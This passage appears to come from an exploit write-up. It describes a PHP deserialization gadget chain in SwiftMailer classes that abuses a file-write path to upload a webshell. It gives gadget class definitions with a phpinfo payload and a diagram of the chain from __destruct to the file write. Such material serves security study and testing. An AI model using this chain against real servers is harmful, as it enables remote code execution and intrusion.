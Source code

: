 For this senario, I will use File Write chains for uploading webshell to remote location:

- Gadgets:

    ```php
    class Swift_ByteStream_FileByteStream extends Swift_ByteStream_AbstractFilterableInputStream{}

    class Swift_Events_SimpleEventDispatcher{}
    
    class Swift_Transport_SendmailTransport {
        public $buffer;
        public $started;
        public $eventDispatcher;
    }

    abstract class Swift_ByteStream_AbstractFilterableInputStream {
        private $filters = [];
        private $writeBuffer = '<?php phpinfo();?>//';
    }
    ```

- Abstract views:

    ```mermaid
    classDiagram
    class Swift_Transport_SendmailTransport{
        +$buffer
        +$started: true
        +$eventDispatcher
        +__destruct(): this->stop()
        +stop()
        +executeCommand(): this->buffer->write($command)
    }

    class Swift_ByteStream_FileByteStream{
        -$path: "path/to/file"
        -$mode
        +write()
        +doWrite()
    }

    class Swift_Events_SimpleEventDispatcher{
        +createTransportChangeEvent()
        +dispatchEvent()
    }
    
    class Swift_ByteStream_AbstractFilterableInputStream{
        $filters
        $writeBuffer: "payload_write_to_path"
    }

    Swift_Transport_SendmailTransport --|> Swift_Events_SimpleEventDispatcher: $eventDispatcher
    Swift_Transport_SendmailTransport --|> Swift_ByteStream_FileByteStream: $buffer
    Swift_ByteStream_FileByteStream --|> Swift_ByteStream_AbstractFilterableInputStream: $writeBuffer
    
    ```
